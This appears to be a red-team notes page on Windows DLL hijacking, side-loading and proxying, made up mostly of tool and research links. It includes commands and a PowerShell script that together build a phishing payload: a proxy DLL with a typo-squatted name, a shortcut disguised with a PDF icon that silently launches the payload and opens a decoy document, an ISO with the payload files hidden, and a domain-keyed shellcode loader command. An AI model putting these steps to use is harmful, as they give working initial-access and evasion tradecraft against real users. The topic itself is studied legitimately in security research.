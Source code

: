 ```yaml
---
description: DLL Hijacking / DLL Side-Loading / DLL Proxying
---
```


# DLL Hijacking

- [https://hijacklibs.net/](https://hijacklibs.net/)
- [https://github.com/XForceIR/SideLoadHunter/tree/main/SideLoads](https://github.com/XForceIR/SideLoadHunter/tree/main/SideLoads)
- [https://dec0ne.github.io/research/2021-04-26-DLL-Proxying-pt1/](https://dec0ne.github.io/research/2021-04-26-DLL-Proxying-pt1/)
- [https://blog.cyble.com/2022/07/27/targeted-attacks-being-carried-out-via-dll-sideloading/](https://blog.cyble.com/2022/07/27/targeted-attacks-being-carried-out-via-dll-sideloading/)
- [https://besteffortteam.it/onedrive-and-teams-dll-hijacking/](https://besteffortteam.it/onedrive-and-teams-dll-hijacking/)
- [https://www.binarydefense.com/resources/blog/demystifying-dll-hijacking-understanding-the-intricate-world-of-dynamic-link-library-attacks/](https://www.binarydefense.com/resources/blog/demystifying-dll-hijacking-understanding-the-intricate-world-of-dynamic-link-library-attacks/)
- [https://xss.is/threads/67021/](https://xss.is/threads/67021/)
- [https://xss.is/threads/67718/](https://xss.is/threads/67718/)
- [https://www.r-tec.net/r-tec-blog-dll-sideloading.html](https://www.r-tec.net/r-tec-blog-dll-sideloading.html)

{% embed url="https://youtu.be/3eROsG_WNpE" %}

Print debug output from a DLL:

```c
#ifdef _DEBUG
#include <stdio.h>
#include <string.h>
#define __FILENAME__ (strrchr(__FILE__, '\\') ? strrchr(__FILE__, '\\') + 1 : __FILE__)
#define DPRINT(...) { \
  fprintf(stderr, "DEBUG: %s:%d:%s(): ", __FILENAME__, __LINE__, __FUNCTION__); \
  fprintf(stderr, __VA_ARGS__); \
}
#else
#define DPRINT(...)
#endif
```




## DLL Side-Loading with ISO Packing

- [https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/)
- [https://blog.sunggwanchoi.com/recreating-an-iso-payload-for-fun-and-no-profit/](https://blog.sunggwanchoi.com/recreating-an-iso-payload-for-fun-and-no-profit/)
- [https://github.com/ChoiSG/OneDriveUpdaterSideloading](https://github.com/ChoiSG/OneDriveUpdaterSideloading)

Generate a proxy DLL with [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy):

```
Cmd > SharpDllProxy.exe --dll C:\Windows\System32\version.dll --payload OneDrive.Update
Cmd > move output_version\tmp1F94.dll C:\out\vresion.dll
```

Create a malicious link (also [here](https://gist.github.com/mttaggart/eb2ba020b8816cfe3da4cfd835240b7d)):

```powershell
$obj = New-object -ComObject wscript.shell
$link = $obj.createshortcut("C:\Tools\PackMyPayload\out\clickme.lnk")
$link.windowstyle = "7"
$link.targetpath = "%windir%/system32/cmd.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13" # PDF ico
$link.arguments = "/c start update.exe & ""%ProgramFiles(x86)%/Microsoft/Edge/Application/msedge.exe"" %cd%/fake.pdf"
$link.save()
```

Pack all the files into an ISO with [PackMyPayload](https://github.com/mgeeky/PackMyPayload):

```
PS > python .\PackMyPayload.py .\out\ .\out\a.iso --out-format iso --hide OneDriveStandaloneUpdater.exe,vresion.dll,version.dll,fake.pdf
```




## Unlock DllMain

- [https://elliotonsecurity.com/perfect-dll-hijacking/](https://elliotonsecurity.com/perfect-dll-hijacking/)
- [https://github.com/ElliotKillick/LdrLockLiberator](https://github.com/ElliotKillick/LdrLockLiberator)
- [https://elliotonsecurity.com/what-is-loader-lock/](https://elliotonsecurity.com/what-is-loader-lock/)
- [https://habr.com/ru/articles/792424/](https://habr.com/ru/articles/792424/)




## Tools

- [https://github.com/monoxgas/Koppeling](https://github.com/monoxgas/Koppeling)



### DLL Proxying

- [https://github.com/Flangvik/SharpDllProxy](https://github.com/Flangvik/SharpDllProxy)
- [https://github.com/tothi/dll-hijack-by-proxying](https://github.com/tothi/dll-hijack-by-proxying)
- [https://github.com/kagasu/ProxyDllGenerator](https://github.com/kagasu/ProxyDllGenerator)
- [https://github.com/namazso/dll-proxy-generator](https://github.com/namazso/dll-proxy-generator)
- [https://github.com/mrexodia/perfect-dll-proxy](https://github.com/mrexodia/perfect-dll-proxy)



### Shhhloader

- [https://github.com/icyguider/Shhhloader](https://github.com/icyguider/Shhhloader)

```
$ ./Shhhloader.py -p RuntimeBroker.exe -d -dp vresion.dll -o version.dll -s domain -sa megacorp.local shellcode.bin
```
